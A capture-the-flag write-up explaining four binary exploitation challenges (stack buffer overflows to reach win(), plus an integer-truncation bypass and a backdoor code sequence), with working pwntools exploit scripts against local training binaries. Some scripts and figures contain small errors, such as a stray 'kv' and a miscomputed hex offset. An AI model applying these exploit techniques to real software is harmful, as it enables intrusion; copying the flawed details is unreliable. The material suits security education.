## Preface
First of all, I would like to thank the US Cyber Challenge, its partners, and the BisonSquad CTF Team for making this CTF possible. These challenges were definitely a challenge, but served as a learning moment for everyone who played.

## Challenges
In this writeup, I'll cover all four **pwn** challenges: [:baby: BOF 86](#1--bof-86), [:baby: BOF 64](#2--bof-64), [ZeroTrust™](#3-zerotrust), & [Y2K :bomb:](#4-y2k-)

### 1) :baby: BOF 86
Smashing the stack like its 19x86...  
> Note: This first challenge will be in-depth to help understand the the process with the other challenges.
- - -
*Initially I had issues trying to run this challenge, but it turned out I just needed to install `lib32-glibc`.*

#### Running the program
Let's first take a look of the behavior of the program.



Some interesting things here...<br>
1. The address of the `win()` function is printed.
2. We can input stuff!

#### Debugging the program
So what are we really working with here? Well, we can check by using [pwntools'](https://github.com/Gallopsled/pwntools) `checksec` script.



Here is what the output mean:
1. **RELRO**: Partial Relocation Read-Only, or RELRO, prevents you from overflowing into the Global Offset Table (GOT).
2. **Stack**: Stack canaries are secret values placed on the stack that changes every time when the program starts. Right before when a function returns, the canary is checked and if it appears to be modified, the program immediately exits.
3. **NX**: The NX bit marks certain areas of the program as non executable, meaning that stored input or data cannot be executed as code.
4. **PIE**: Position Indepent Executable (PIE), when enabled, loads the file into a different memory address. Lucky for us, it's disabled therefore the address of our `win()` function remains the same

> Note: *Information above gathered from: [ir0nstone.gitbook.io](https://ir0nstone.gitbook.io/notes/types/stack/) & [ctf101.org](https://ctf101.org/binary-exploitation/what-is-binary-security/)*

Then by using `gdb` with the [`pwndbg`](https://github.com/pwndbg/pwndbg) plugin, I ran `info functions` to see what functions we had available.



There are three functions that are in our interests: **main**, **vuln**, and **win**. Obviously we're trying to get to the `win()` function, but how? Let's take a look at `main()`.

#### Examining `main()`
Running `disass main` will show you the assembly code of the function.


Understanding all of this isn't needed in this case, but we can see that the `vuln()` is being called.

#### Examining `vuln()`
Again, we'll run `disass` with our function...



Neither functions, `main()` and `vuln()`, seem to call the `win()` function, so how can we do that?

Well, we can see that the function `fgets()` is being called, allowing us to input our "magic word". This will be our foothold to executing a [buffer overflow](https://www.cloudflare.com/learning/security/threats/buffer-overflow/), where hopefully we can call the `win()` function.

#### Finding our offset
Our goal here is to overwrite the **EIP** register to point to the address of the `win()` function, so let's take a look how...
- - -
First, we can start off with the assumed buffer size of `fgets()` by taking a look at a piece of this assembly code...
```nasm
lea    eax,[ebp-0x26]
```
`0x26` to decimal is 32, so we'll start off by sending 32 A's.



Nothing interesting yet, let's try to send more A's until we see some in our **EIP** register.



Looks like sending 46 A's succesfully overwrote the **EIP** register, but because we want to replace the register with the address of the `win()` function, we need to get rid of 4 of the A's, leaving us with an offset of 42 bytes.

#### Reaching the `win()` function
For this, we can utilize the [`pwntools`](https://github.com/Gallopsled/pwntools) package.

Let's take what we know so far and put into a python script
```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
```
Remember how we saw the address of the `win()` function when we ran the program? We can use that and append it to our payload which should hopefully set the **EIP** register to it.

```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'
```

By using the `p32()` function from pwntools, we can interpret the memory address into bytes without needing to use the built-in `struct` module.

Now that we have our payload ready, we need to send it.

```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'

io.sendline(payload) # Sends our payload to the program, similar to running the program manually and typing "screaming goes here"

io.interactive() # Allows us to see the program run
```

Now we can run our script and hope that it works.

> If you end up seeing "Missing flag file! Please contact support if you see this error on the remote target!", it just means you're missing the `flag` file which isn't a big deal since we're testing this on our machine.


*Look at that! We've succesfully pwn'ed the challenge!*

### 2) :baby: BOF 64
Smashing the stack like its 19x64  
- - -
#### Running the program
Once again, let's see how this program behaves.



Just like the previous challenge, we are given the address of the `win()` function.

#### Debugging the program
##### Running checksec


The important thing to take note here is that **PIE** is enabled, therefore if we were to run the program again, the address of the `win()` function should be different everytime.

##### Disassembly of the `vuln()` function
By running `disass vuln` in gdb on the program, we can see similarities from the previous `vuln()` function.



So here is what we must do...
1. Find our offset
2. Find a way to get the address of the `win()` function
3. Execute our payload using Python & `pwntools`

#### Finding our offset
We can go ahead and used the assumed buffer size of `0x20` or 30 bytes and with a bit of fuzzing attempt to figure out how much it'll take to overwrite the **RIP** register.

I began sending 50 A's to the program and successfully got a `Segmentation Fault`, and though it seems like the **RIP** didn't get overwritten, it actually did after doing a bit of [research](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow#why-is-rip-not-overflowed).



According to *Red Team Notes*, the reason for the **RIP** register not overflowing is because in a 64-bit architecture, current CPUs prevent the operating system from using all 64 bits. This means `AAAAAAAA` (0x41414141414141414141) is considered as a non-[canonical memory](https://stackoverflow.com/questions/25852367/x86-64-canonical-address) address. So, we need to send a canonical address to the **RIP** (basically finding the right offset).

#### Reaching the `win()` function
By utilizing `pwntools` again, we can automatically find our offset as well as retrieve the address of the `win()` function.

```py
from pwn import *

### Finding our offset ###
io = process('./baby_bof_x64') # You must use the local process

# Sending an arbitrary cyclic pattern
io.sendline(cyclic(128))

# Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)

### Now that we have our offset, let's exploit the binary ###
# Start up a new process
io = process('./baby_bof_x64') # You could replace this with the remote process

# Get our win() function
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

# Send our payload
io.sendline(payload)
io.interactive()
```

### 3) ZeroTrust™
A 'new' way to authenticate...  
- - -
#### Running the program
Right off the start, we are given the address of the `win()` function again, saving us plenty of time.

#### Debugging the program
Running gdb on the program showed interesting similarities between the binary that we just did, [:baby: BOF 64](#2--bof-64)... Hm, let's try to send the same script with some minor tweaks to adjust to the output of the program.

#### Reaching the `win()` function
```py
from pwn import *

### Finding our offset ###
io = process('./zerotrust') # You must use the local process

# Sending a arbitrary cyclic pattern
io.sendline(cyclic(128))

# Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)kv

### Now that we have our offset, let's exploit the binary ###
# Start up a new process
io = process('./zerotrust') # You could replace this with the remote process

# Skip the banner text
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

# Get our win() function
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

# Send our payload
io.sendline(payload)
io.interactive()
```
And voila, we should have our flag.

### 4) Y2K :bomb:
Which year is it?  
- - -
This challenge was the one that got me and unfortunately I solved it after the CTF was over. This did have a bit of reverse engineering to it which caught me off guard, but by using a decompiler such as [Ghidra](https://www.ghidra-sre.org), we can get a better understanding of what's going on.

#### Running the program
This time we aren't given any address, so maybe we need to find it, or there's a way to call it within the program.
```
...
Which year is it?
> 2023
2023
Cool! good to know...
```
> *Sending a value equal to or greater than 2022 gives us "Cool! good to know..."*

```
...
Which year is it?
> 2021
2021
That was a long time ago...
```
> *Sending a value under 2022 gives us "That was a long time ago..."*

#### Debugging the program
After viewing the functions in the program, it's pretty difficult to determine what we can exploit here without a decompiler unless you understand assembly. Let's open up Ghidra and see what's going on.

We can start off by looking at `main()` and get a clue of how the program initially begins.

```c
undefined8 main(void)

{
  int result;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts(
      "                 /\'.    /|    .\'\\\n           ,._   |+i\\  /++\\  / +|    ,,\n           | *+\'._/+++\\/+ ++\\/+++<_.-\'+|\n      :-.  \\ ++++?++ +++++*++++++ +++ /  .-:\n      |*+\\_/+ +++ +++*++ ++++++ ++?++++\\_/ +|\n  ,    \\*+++++ ++++ +++*+++ ++++ +++ +++++/   ,\n  \\\'-._>  +__+*++__*+++_+__*++ ++__++++__*<_.-\'/\n   `>*+++|  \\++/  |+*/     `\\ +|  |++/  |++++<\'\n _,-\'+ * +*\\  \\/  /++|__.-.  |+ |  |+/  /+ +*+\'-._\n\'-.*+++++++\\    /+ ++++++/  / *|  |/   /+ ++++++.-\'\n    > *+++++\\  /*++++ +/` /`+++|     < *++ +++< \n_,-\'* +++ ++|  |++ +*/` /`  +* +|  |\\  \\+ ++++++\'-._\n`-._+ +*++?+|  |+++*|  \'-----.+|  |+\\  \\+* ++ +_.-\'\n   _`\\ ++++++|__|+ *+|________|+|__|++\\__|++++/`_\n  /*++_+* + +++++ ++ + ++++ +++++ ++ ++++ ++_+*+\ \\n  \'--\' `>*+++ +++++ +++++*++++  +++ ++++ ?<\' \'--\'\n       /++_++ ++ ++++++ ++?+ +++++* +++ ++++ \\\n       |_/ `\\++ ++ +++*++++++++++ ++++*./`\\_|\n            /+*.-.*+ +_ ++*+ _++ + .-.* +\\\n      jgs   | /   | +/ `\\?+/` \\*+|    \\ |\n             \'    \\.\'    |/    \' ./     \'"
      );
  result = year_check();
  if (result != 0) {
    puts("\n\nAccess granted!\n");
    complex_calculation();
  }
  return 0;
}
```
> *Here you might see some different variable names. I changed them throughout the decompiled source to what I thought best matched its purpose to make debugging a bit easier.*

The `main()` function calls `year_check()` which seems to return an integer and for us to reach `complex_calculation()`, we need it to **not** equal to 0, so let's go ahead and take a look at it.

```c
undefined8 year_check(void)

{
  undefined8 result;
  int year;
  
  year = 2022;
  printf("Which year is it?\n> ");
  __isoc99_scanf(&DAT_00402151,&year);
  printf("%d",(ulong)(uint)(int)(short)year);
  putchar(L'\n');
  if (year < 2022) {
    puts("That was a long time ago...");
    result = 0;
  }
  else if ((short)year == 2000) {
    result = 1;
  }
  else {
    puts("Cool! good to know...");
    result = 0;
  }
  return result;
}
```

Looking at the decompiled code, in order to have the function **return 1** we must g0et the year equal to 200, yet the first IF statement checks if our year is less than 2022. This is a problem since 2000 is less than 2022 :exploding_head:.

What can we do to get pass this if we can't overflow a buffer? Well, I noticed that the `year` variable is a `int` type, but the IF statement was checking it as a `short` type. We can [view the max values](https://learn.microsoft.com/en-us/cpp/c-language/cpp-integer-limits?view=msvc-170) to somehow get pass the first condition and satisfy the second condition.

>|**Constant**|**Value**|
|---|---|
SHRT_MAX|32767
INT_MAX|2147483647

Alright it's time to do some math. Lucky for us the program returns the number we typed in so we can use that to reflect upon our input.

Sending `SHRT_MAX+1`, the max value for the `short` type, returns `-32768`, this is known as an [**arithmetic overflow**](https://stackoverflow.com/questions/6360049/what-are-arithmetic-underflow-and-overflow-in-c). This is great news since we know something is acting up now.
```
...
Which year is it?
> 32768
-1
Cool! good to know...
```
Also if you haven't noticed, we got *"Cool! good to know..."*, meaning we were able to get pass the first IF statement.

So the question still remains, how can we satisfy the second IF statement and where is the math I said we were going to do? Well, we need to stay under `INT_MAX+1` to not satisfy the first IF statement, but also satisfy the second IF statement by manipulating the `short` year.

Let's try to add 2000 to `SHRT_MAX+1`.
```
...
Which year is it?
> 34768
-30768
Cool! good to know...
```

Looks like that didn't work. After doing some [research](https://stackoverflow.com/questions/3108022/incrementing-an-integer-value-beyond-its-integer-limit-c-sharp), it looks like it wraps back around to its minimum value. Well after fidgeting around with the number, I eventually found a way to get the program to read in `2000`.

Initially I appended `2000` to `SHRT_MAX+1`, which ended up actually working.
```
...
Which year is it?
> 327682000
2000


Access granted!
...
```

I also figured out by multiplying `SHRT_MAX+1` by `2`, then adding `2000`, also gives the same result.
```
...
Which year is it?
> 67536
2000


Access granted!
...
```

Now that we were able to get `year_check()` to return `1`, let's return to the decompiled code and take a look at `complex_calculation()`.

```c
void complex_calculation(void)

{
  code *pcVar1;
  Elf64_Ehdr *ret_address;
  undefined8 *puVar2;
  undefined *rbp;
  undefined8 auStack_100 [30];
  undefined4 local_10;
  undefined4 local_c;
  int code;
  
  rbp = &stack0xfffffffffffffff8;
  puVar2 = auStack_100 + 1;
  local_10 = 0;
  puts(
      "Welcome to the year 2000!\nOur friend Jim programmed this backdoor in 1998 just before his contract ended...\nCan you figure out how it works?\n"
      );
  ret_address = (Elf64_Ehdr *)&DAT_0000a0a0;
  local_c = 0;
  while (*(int *)(rbp + -4) < 7) {
    code = *(int *)(rbp + -4);
    puVar2[-1] = 0x401372;
    printf("Enter code #%d: ",(ulong)(code + 1));
    puVar2[-1] = 0x40138a;
    __isoc99_scanf("%d",rbp + -12);
    switch(*(undefined4 *)(rbp + -12)) {
    case 0:
      ret_address = (Elf64_Ehdr *)CONCAT71((int7)((ulong)ret_address >> 8),0x1);
      break;
    case 1:
      ret_address = &Elf64_Ehdr_00400000;
      break;
    case 2:
      ret_address = (Elf64_Ehdr *)CONCAT62((int6)((ulong)ret_address >> 16),0x1270);
      break;
    case 3:
      return;
    case 4:
      rbp = (undefined *)*puVar2;
      puVar2 = puVar2 + 1;
      break;
    case 5:
      puVar2[-1] = 0x4013d0;
      (*(code *)ret_address)();
      break;
    case 6:
      ret_address->e_ident_magic_num = 0;
      break;
    case 7:
      pcVar1 = *(code **)ret_address;
      puVar2[-1] = 0x4013d9;
      (*pcVar1)();
      break;
    case 8:
      ret_address = (Elf64_Ehdr *)ret_address->e_ident_magic_str;
      break;
    case 9:
      ret_address = (Elf64_Ehdr *)(ret_address->e_ident_magic_str + 1);
      break;
    default:
      *(undefined4 *)(rbp + -8) = 1;
    }
    *(int *)(rbp + -4) = *(int *)(rbp + -4) + 1;
  }
  return;
}
```
> *A lot is happening here, but don't fret, we can take a look at this code step by step.*

Here we have a **while loop** which constraints us from sending more than 7 codes and the **switch statement** determines what each code does, not too bad. Now what looks the most intimidating is the code in each **case**.

##### Case 0
Perform 8 right bitshifts on `ret_address` then [CONCAT](https://stackoverflow.com/questions/69430800/what-does-concat15-and-concat412-mean-in-ghidra) 7 bytes with 1 byte of `0x1`.

##### Case 1
Sets `ret_address` to `0x400000`.

##### Case 2
Perform 16 right bitshifts on `ret_address` then [CONCAT](https://stackoverflow.com/questions/69430800/what-does-concat15-and-concat412-mean-in-ghidra) 6 bytes with 2 bytes of `0x1270`.

##### Case 3
Returns the current `RIP`.

##### Case 4
Analysing this case statement dynamically, it appears to execute `pop rbp`, causing a **SIGSEGV** (Segmentation Fault).

##### Case 5
Calls a function at `rbx`. :eyes:

##### Case 6
Again analysing this dynamically, points `rbx` to `0`.

##### Case 7
Calls a function `rbx`'s pointer.

##### Case 8
Adds `0x1` to `rbx`

##### Case 9
Adds `0x2` to `rbx`

Now that we understood what each digit does, how can we figure out the code here? I pointed out that [case 5](#case-5) called a function at `rbx`. Well we do have a `win()` function, so let's grab the address of that.

```
gdb ./y2k
> p win
$1 = {<text variable, no debug info>} 0x401276 <win>
```

Okay, now that we got the address, let's find out how we can set `rbx` to `0x401276` and call it.

Going to [case 1](#case-1), we can set `rbx` to `0x400000`. Next, let's append `0x1270` to `rbx` via [case 2](#case-2), setting `rbx` to `0x401270`.

We still need `0x6` more bytes. Luckily, we've only used **2/7** of our digits. We can go ahead and go to [case 9](#case-9) three times, setting `rbx` to `0x401276`.

Now there's only one more thing to do, call `win()`! All we need is to go to [case 5](#case-5) and that should be it.

#### Solve Script
```py
from pwn import *

p = process('./y2k')

# Send the year
p.sendline(b'327682000')

# Send the code
p.sendline(b'1')
p.sendline(b'2')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'5')

p.interactive()
```

## Conclusion
The USCC camp was a great experience and was an opportunity I'm glad that I took advantage of. Again, I'd like to thank those responsible for the USCC, its partners, and the BisonSquad Team, especially the pwn challenge creator :grin:.